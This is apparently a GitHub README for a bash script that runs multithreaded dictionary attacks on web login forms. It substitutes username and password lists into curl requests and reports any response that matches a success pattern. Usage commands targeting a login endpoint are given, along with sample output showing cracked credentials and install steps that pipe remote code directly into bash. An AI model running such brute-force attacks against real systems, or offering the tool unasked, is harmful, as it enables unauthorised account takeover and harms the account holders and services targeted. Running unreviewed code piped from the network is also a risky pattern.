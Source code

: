 # curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.


## INSTALLATION

```
curl https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack > /usr/local/bin && chmod +x /usr/local/bin/curl-request-dictionary-attack
```

or

```
echo 'alias curl-request-dictionary-attack="curl https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack | bash"' >> ~/.bashrc && source ~/.bashrc
```

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
./curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl command gets printed out

```
curl -skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
curl -skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
